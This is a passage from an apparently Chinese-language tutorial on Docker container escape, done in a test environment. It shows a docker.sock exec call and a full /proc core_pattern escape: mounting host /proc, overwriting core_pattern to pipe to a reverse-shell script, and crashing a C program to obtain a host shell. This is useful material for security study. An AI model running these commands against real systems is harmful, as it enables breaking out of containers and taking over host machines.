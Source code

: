 ```sh
# Run the exec
#
EXEC_ID=$(echo $EXEC_CREATE | jq -r '.Id')
curl --silent --unix-socket /var/run/docker.sock "http://localhost/exec/${EXEC_ID}/start" -XPOST \
  -H "Content-Type: application/json" \
  -d '{
    "Detach": false,
    "Tty": true
  }'

# Or use the logging API to attach to the container, and delete the JSON
# from `start`
#
# curl --silent --unix-socket /var/run/docker.sock "http:/containers/${CONTAINER_NAME}/attach?stream=1&stdout=1&stderr=1" -XPOST
```  
由于是测试环境，我安装了jq，运行完脚本之后，宿主机的/root/.ssh目录下就会生成一个flag.txt，成功逃逸。  

### /proc目录挂载逃逸
参考文章:  
<https://wohin.me/rong-qi-tao-yi-gong-fang-xi-lie-yi-tao-yi-ji-zhu-gai-lan/#4-2-procfs->  
>/proc/sys/kernel/core_pattern负责配置进程崩溃时内存转储数据的导出方式,如果该文件中的首个字符是管道符，那么该行的剩余内容将被当作用户空间程序或脚本解释并执行。

容器内如果挂载了/proc，我们修改/proc/sys/kernel/core_pattern,将其指向我们的脚本，当运行一个崩溃的程序时，core_pattern中的脚本就会执行。
首先创建一个测试容器:  
```bash
sudo docker run -itd --name=test6 -v /proc:/host/proc ubuntu /bin/bash
```
因为/proc/sys/kernel/core_pattern的查找是在宿主机文件系统进行的,所以我们需要获取到容器在宿主机的绝对路径，这样当程序崩溃时脚本才可以正常执行：
```bash
cat /host/proc/mounts | grep docker
```
找到workdir，形如：  
```
workdir=/var/lib/docker/overlay2/b1a84cd8ea30720f8de4114df2fb688424ff02d7afcce3e2b6c21ffc493a6616/work
```
merged是docker的挂载点，那么 
```bash
/var/lib/docker/overlay2/b1a84cd8ea30720f8de4114df2fb688424ff02d7afcce3e2b6c21ffc493a6616/merged/
```
便是容器内根目录在宿主机的绝对路径。接下来我们修改core_pattern：  
```bash
echo -e "|/var/lib/docker/overlay2/b1a84cd8ea30720f8de4114df2fb688424ff02d7afcce3e2b6c21ffc493a6616/merged/tmp/1.sh 
\rcore           " > /host/proc/sys/kernel/core_pattern
```
其中/tmp/1.sh是反弹shell命令，接下来我们生成一个崩溃的程序:
```cpp
#include <stdio.h>
int main(void)
{
    int *a = NULL;
    *a = 1;
    return 0;
}
```
编译好了之后运行，攻击机成功接受到了宿主机的shell。
